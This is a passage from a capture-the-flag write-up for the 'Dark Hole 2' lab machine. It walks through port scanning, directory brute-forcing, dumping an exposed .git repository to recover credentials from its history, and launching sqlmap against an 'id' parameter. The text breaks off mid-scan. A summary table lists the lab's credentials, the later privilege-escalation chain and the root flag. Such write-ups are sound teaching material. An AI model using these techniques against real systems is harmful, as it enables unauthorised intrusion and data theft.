# Dark Hole 2 — CTF Writeup

## 1. Identification

| Field             | Value                                                                 |
|-------------------|-----------------------------------------------------------------------|
| Challenge         | Dark Hole 2                                                           |
| Target IP         | `10.0.0.35`                                                           |
| Web stack         | Apache `2.4.41` on Ubuntu                                            |
| Exposed services  | HTTP on port `80`, SSH on port `22`                                  |
| Main vectors      | Exposed `.git`, recovered credentials, SQL injection in `id`, local RCE |
| Initial web creds | `lush@admin.com:321`                                                  |
| SSH creds         | `jehad:fool`                                                          |
| Later user creds  | `losy:gang`                                                           |
| Root flag         | `DarkHole{'Legend'}`                                                  |

Full chain in one line: web access → login/source inspection → exposed `.git` → commit history leak → `lush@admin.com:321` → dashboard access → SQL injection in `id` → dump `darkhole_2.ssh` → SSH as `jehad` → find local service on `127.0.0.1:9999` executing commands as `losy` → SSH key injection / `losy:gang` → sudo Python command → root.

## 2. Introduction

Here we go again with another interesting CTF, this time the direct continuation of one of the CTFs posted here on GitHub.

Ladies and gentlemen, I am speaking about DARK HOLE 2. We land on a very fancy and pinkish picture of a city, probably London, which kind of reminds me of a nightclub ad.

Figure 1 — Initial landing page.


We explore the main page a little bit until finally clicking the login button on the upper-right side. After clicking it, the page shows the Big Eye, the famous London giant wheel during the night.

Figure 2 — Login page.


## 3. Login Page Source Code

I did not lose time and started looking at the source code of this page. The results are shown below.

Figure 3 — Source code of the login page.



```html
<link rel="stylesheet" href="style/login.css">
<head>
<script src="https://kit.fontawesome.com/fe909495a1.js" crossorigin="anonymous"></script>
<link rel="stylesheet" href="Project_1.css">
<title>Home</title>
</head>

<body>

<div class="container">
<h1>👋 Welcome</h1>
<!-- <a href="file:///C:/Users/SAURABH%20SINGH/Desktop/HTML5/PROJECTS/Project%201/Project_1.html"><h1>Sign In</h1></a> -->
<!-- <a href="file:///C:/Users/SAURABH%20SINGH/Desktop/HTML5/PROJECTS/Project%201/P2.html"> <h1>Log In</h1></a> -->
<form action="" method="post">
<div class="box">
<i class="fas fa-envelope"></i>
<input type="email" name="email" id="email" placeholder="Enter Your Email" required>
</div>
<div class="box">
<i class="fas fa-key"></i>
<input type="password" name="password" id="password" placeholder="Enter Your Password" required>
</div>
<button id="btn" name="button">Login</button>
</form>


</div>

</body>
```

The interesting thing I found here is that the HTML shows directory paths from the administrator's computer. There are two pages: one login page that is directly accessible, and a sign-in page somewhere else.

This is good information to keep in mind. After that, I started to see exactly what is sent to the server when we try to authenticate. The captured packet is shown below.

```http
POST /login.php
HTTP/1.1 Host: 10.0.0.35
Content-Length: 56 Cache-Control: max-age=0
Accept-Language: pt-PT,pt;q=0.9
Origin: http://10.0.0.35
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.0.35/login.php
Accept-Encoding: gzip, deflate, br Cookie: PHPSESSID=mlr2ola7i4mam1p4eun37a3l3o Connection: keep-alive

email=dsfsdadfdsa%40dsfsdfa&password=adsafsdadfs&button=
```

Nothing very different from what I was expecting, but one thing I found strange was the `button` field being sent completely blank, as if this affected the authentication in some way.

## 4. Initial Enumeration

Anyway, I decided to run Nmap to identify the ports and services available on the web server.

```text
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.0.0.35
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4
OS details: Linux 4.19 - 5.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.92 seconds
```

We now know Apache is running on an Ubuntu OS, and there are two services available: HTTP and SSH.

For now, we are not exploring the SSH part yet, since we have no credentials to test.

So I ran feroxbuster as usual to get some information about other directories.

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ feroxbuster -u http://10.0.0.35 -w /usr/share/seclists/Discovery/Web-Content/big.txt --extract-links -C 404

___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯  Target Url            │ http://10.0.0.35/
🚩  In-Scope Url          │ 10.0.0.35
🚀  Threads               │ 50
📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
💢  Status Code Filters   │ [404]
💥  Timeout (secs)        │ 7
🦡  User-Agent            │ feroxbuster/2.13.1
💉  Config File           │ /etc/feroxbuster/ferox-config.toml
🔎  Extract Links         │ true
🏁  HTTP methods          │ [GET]
🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      271c Auto-filtering found 404-like response and created new filter; toggle of
f with --dont-filter
403      GET        9l       28w      274c Auto-filtering found 404-like response and created new filter; toggle of
f with --dont-filter
301      GET        9l       28w      305c http://10.0.0.35/.git => http://10.0.0.35/.git/
200      GET        1l       10w       73c http://10.0.0.35/.git/description
200      GET        3l       41w      554c http://10.0.0.35/.git/logs/HEAD
200      GET      113l      260w     2434c http://10.0.0.35/style/index.css
200      GET       30l       65w     1026c http://10.0.0.35/login.php
200      GET       29l       47w      740c http://10.0.0.35/
200      GET        7l       19w      130c http://10.0.0.35/.git/config
200      GET        1l        2w       23c http://10.0.0.35/.git/HEAD
200      GET        9l       36w     1806c http://10.0.0.35/.git/index
200      GET        1l        7w       41c http://10.0.0.35/.git/COMMIT_EDITMSG
200      GET      100l      180w     1773c http://10.0.0.35/style/login.css
200      GET       24l       83w      544c http://10.0.0.35/.git/hooks/pre-receive.sample
200      GET       78l      499w     2783c http://10.0.0.35/.git/hooks/push-to-checkout.sample
200      GET       13l       67w      416c http://10.0.0.35/.git/hooks/pre-merge-commit.sample
200      GET      294l      370w     4746c http://10.0.0.35/style/dashboard.css
200      GET      169l      798w     4898c http://10.0.0.35/.git/hooks/pre-rebase.sample
200      GET      128l      546w     3650c http://10.0.0.35/.git/hooks/update.sample
200      GET       42l      238w     1492c http://10.0.0.35/.git/hooks/prepare-commit-msg.sample
200      GET       15l       79w      478c http://10.0.0.35/.git/hooks/applypatch-msg.sample
200      GET       53l      234w     1374c http://10.0.0.35/.git/hooks/pre-push.sample
200      GET       24l      163w      896c http://10.0.0.35/.git/hooks/commit-msg.sample
200      GET        6l       43w      240c http://10.0.0.35/.git/info/exclude
200      GET      173l      669w     4655c http://10.0.0.35/.git/hooks/fsmonitor-watchman.sample
200      GET       14l       69w      424c http://10.0.0.35/.git/hooks/pre-applypatch.sample
200      GET        8l       32w      189c http://10.0.0.35/.git/hooks/post-update.sample
200      GET       49l      279w     1643c http://10.0.0.35/.git/hooks/pre-commit.sample
200      GET        1l        1w       41c http://10.0.0.35/.git/refs/heads/master
200      GET        1l        5w      327c http://10.0.0.35/.git/objects/0f/1d821f48a9cf662f285457a5ce9af6b9feb2c4
200      GET        2l        5w      363c http://10.0.0.35/.git/objects/04/4d8b4fec000778de9fb27726de4f0f56edbd0e
200      GET        3l       21w     1389c http://10.0.0.35/.git/objects/09/04b1923584a0fb0ab31632de47c520db6a6e21
200      GET        1l        2w       97c http://10.0.0.35/.git/objects/49/151b46cc957717f5529d362115339d4abfe207
200      GET        3l        8w      350c http://10.0.0.35/.git/objects/a4/d900a8d85e8938d3601f3cef113ee293028e10
200      GET        5l       16w     1164c http://10.0.0.35/.git/objects/8a/0ff67b07eb0cc9b7bed4f9094862c22cab2a7d
200      GET        2l       20w     1263c http://10.0.0.35/.git/objects/b6/f546da0ab9a91467412383909c8edc9859a363
200      GET        1l        1w       79c http://10.0.0.35/.git/objects/7f/d95a2f170cb55fbb335a56974689f659e2c383
200      GET        1l        1w      246c http://10.0.0.35/.git/objects/66/5001d05a7c0b6428ce22de1ae572c54cba521d
200      GET      600l     3685w   254517c http://10.0.0.35/style/home.jpg
200      GET        1l        2w       23c http://10.0.0.35/.git/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
200      GET        3l        6w      441c http://10.0.0.35/.git/objects/9d/ed9bf70f1f63a852e9e4f02df7b6d325e95c67
200      GET        2l        3w      451c http://10.0.0.35/.git/objects/6e/4328f5f878ed20c0b68fc8bda2133deadc49a3
200      GET        1l        2w      140c http://10.0.0.35/.git/objects/4e/b24de5b85be7cf4b2cef3f0cfc83b09a236133
200      GET        2l       11w      582c http://10.0.0.35/.git/objects/b2/076545503531a2e482a89b84f387e5d44d35c0
200      GET        6l       51w     3926c http://10.0.0.35/.git/objects/32/580f7fb8c39cdad6a7f49839cebfe07f597bcf
200      GET        1l        2w      315c http://10.0.0.35/.git/objects/77/c09cf4b905b2c537f0a02bca81c6fbf32b9c9d
200      GET        2l        3w      239c http://10.0.0.35/.git/objects/93/9b9aad671e5bcde51b4b5d99b1464e2d52ceaa
200      GET        5l       17w      786c http://10.0.0.35/.git/objects/8b/6cd9032d268332de09c64cbe9efa63ace3998e
200      GET       11l       36w     2658c http://10.0.0.35/.git/objects/56/987e1f75e392aae416571b38b53922c49f6e7e
200      GET        2l        5w      448c http://10.0.0.35/.git/objects/a2/0488521df2b427246c0155570f5bfad6936c6c
200      GET      586l     3254w   256773c http://10.0.0.35/.git/objects/32/d0928f948af8252b0200ff9cac40534bfe230b
200      GET        5l       17w     1463c http://10.0.0.35/.git/objects/c1/ef127486aa47cd0b3435bca246594a43b559bb
200      GET        4l        7w      304c http://10.0.0.35/.git/objects/ca/f37015411ad104985c7dd86373b3a347f71097
200      GET        2l        4w      255c http://10.0.0.35/.git/objects/aa/2a5f3aa15bb402f2b90a07d86af57436d64917
200      GET        1l        3w      374c http://10.0.0.35/.git/objects/c9/56989b29ad0767edc6cf3a202545927c3d1e76
200      GET     9375l    55723w  4368261c http://10.0.0.35/style/login.jpg
200      GET     9553l    53432w  4372323c http://10.0.0.35/.git/objects/59/218997bfb0d8012a918e43bea3e497e68248a9
301      GET        9l       28w      307c http://10.0.0.35/config => http://10.0.0.35/config/
200      GET        0l        0w        0c http://10.0.0.35/config/config.php
301      GET        9l       28w      303c http://10.0.0.35/js => http://10.0.0.35/js/
200      GET       22l       31w      589c http://10.0.0.35/js/index.js
301      GET        9l       28w      306c http://10.0.0.35/style => http://10.0.0.35/style/
```

## 5. Exposed Git Repository

I found a very interesting thing: the `/.git/` directory. This means the content upload and commits were made with Git.

So we could travel between the folders and files present and see more relevant information.

Figure 4 — Exposed `.git` directory.



Figure 5 — Additional `.git` exploration.



I could see a lot of folders and files. I decided to look at what was in the hooks folder, and there was just a sample that was probably manually uploaded by the administrator.

After that, we got to `COMMIT_EDITM5G`, and we saw a message made by the site administrator saying: "I changed login.php file for more secure".

Figure 6 — Commit message.



Figure 7 — Commit message detail.



The meaning becomes clearer when we access the entire commit history made by the administrator. It shows that before the change on `login.php` was made, the access credentials were default ones.

```text
0000000000000000000000000000000000000000 aa2a5f3aa15bb402f2b90a07d86af57436d64917 Jehad Alqurashi <anmar-v7@hotmail.com> 1630317764 +0300       commit (initial): First Initialize
aa2a5f3aa15bb402f2b90a07d86af57436d64917 a4d900a8d85e8938d3601f3cef113ee293028e10 Jehad Alqurashi <anmar-v7@hotmail.com> 1630317980 +0300       commit: I added login.php file with default credentials
a4d900a8d85e8938d3601f3cef113ee293028e10 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 Jehad Alqurashi <anmar-v7@hotmail.com> 1630318472 +0300       commit: i changed login.php file for more secure
```

Beyond that, we could find the email `anmar-v7@hotmail.com`, which could be useful in an eventual brute-force attack.

Since the main vulnerability here was obviously Git and the commit history, I decided to download all the files to my local machine. After that, I looked for the exact changes made by the administrator when he "[...] changed login.php file for more secure".

So I ran the command below.

```bash
wget -r -np -nH --cut-dirs=0 -R "index.html*" -P darkhole_git http://10.0.0.35/.git/
```

Meaning:

- `wget` — Downloads files from a web server.
- `-r` — Recursive download.
- `-np` — Do not go to parent directories.
- `-nH` — Do not create a folder with the host name.
- `--cut-dirs=0` — Do not remove any remote directory level.
- `-R "index.html"` — Ignore files named `index.html`.
- `-p` — Download page requisites.
- `-P darkhole_git` — Intended output folder; save files inside `darkhole_git`.
- `http://10.0.0.35/.git/` — Target exposed `.git` directory.

After that, I ran some Git commands and saw that everything was reconstructed as expected.

```text
┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ pwd
/home/mr_blue/dark_hole

┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ ls -la
total 32
drwxrwxr-x   4 mr_blue mr_blue  4096 jun 20 12:34 .
drwxr-xr-x 148 mr_blue mr_blue 20480 jun 20 12:33 ..
drwxrwxr-x   7 mr_blue mr_blue  4096 jun 20 12:35 .git
drwxrwxr-x   2 mr_blue mr_blue  4096 jun 20 12:34 icons

┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ git rev-parse --is-inside-work-tree
true
```

The tree is there, the `.git`, and the icons. So it is time to run the restore and see what the administrator was doing in these commits.

```text
┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ git restore .
```

We can see the full pages from this directory, but I wanted to see the logs from the commits.

```text
┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ ls
config  dashboard.php  icons  index.php  js  login.php  logout.php  style
```

So I ran the `git log` command with `--oneline`, to show the content of each commit on one line.

```text
┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ git log --oneline
0f1d821 (HEAD -> master) i changed login.php file for more secure
a4d900a I added login.php file with default credentials
aa2a5f3 First Initialize
```

From here, we can see the same commits we saw before, so I selected the last one to see what changes were made by the web master.

The result is shown below.

```diff
┌──(mr_blue㉿mrbluemachine)-[~/dark_hole]
└─$ git show 0f1d821
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

   i changed login.php file for more secure

diff --git a/login.php b/login.php
index 8a0ff67..0904b19 100644
--- a/login.php
+++ b/login.php
@@ -2,7 +2,10 @@
 session_start();
 require 'config/config.php';
 if($_SERVER['REQUEST_METHOD'] == 'POST'){
-    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
+    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
+    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
+    if($check->num_rows){
        $_SESSION['userid'] = 1;
        header("location:dashboard.php");
        die();
```

EUREKA! After all, we are not supposed to access the page with `anmar-v7@hotmail.com`, but with `lush@admin.com` and the password `321`.

## 6. Dashboard Access and Request Analysis

I went back to the login page, entered the credentials, and we were redirected to the page below.

Figure 8 — Authenticated dashboard.



There is a cartoon page with some pseudo-information about this fictional character that I can change.

I decided to make some alteration, press the submit button, and intercept it with Burp to see what was sent to the server.

```http
POST /dashboard.php?id=1 HTTP/1.1
Host: 10.0.0.35
Content-Length: 123
Cache-Control: max-age=0
 Accept-Language: pt-PT,pt;q=0.9
 Origin: http://10.0.0.35
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.0.35/dashboard.php?id=1
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jn30af77bmv1rf3gc6efo5k2b2
Connection: keep-alive

fname=Jehad+Alqurashiasddasdasdas&email=lush%40admin.com&mobile=1&address=+Street%2C+Pincode%2C+Province%2FState%2C+Country
```

Figure 9 — Intercepted dashboard request.



After that, I saw the old `id` parameter on the top page, which can be vulnerable to SQL injection in the URL.

Figure 10 — `id` parameter in the dashboard URL.



So, without wasting any more time, I ran sqlmap to do the service.

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ sqlmap -u "http://10.0.0.35/dashboard.php?id=0" --cookie='PHPSESSID=jn30af77bmv1rf3gc6efo5k2b2' --batch --level
=3 --risk=3
       ___
      __H__
___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 15:39:49 /2026-06-20/
[...]
[15:40:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one
other (potential) technique found
[15:40:19] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right n
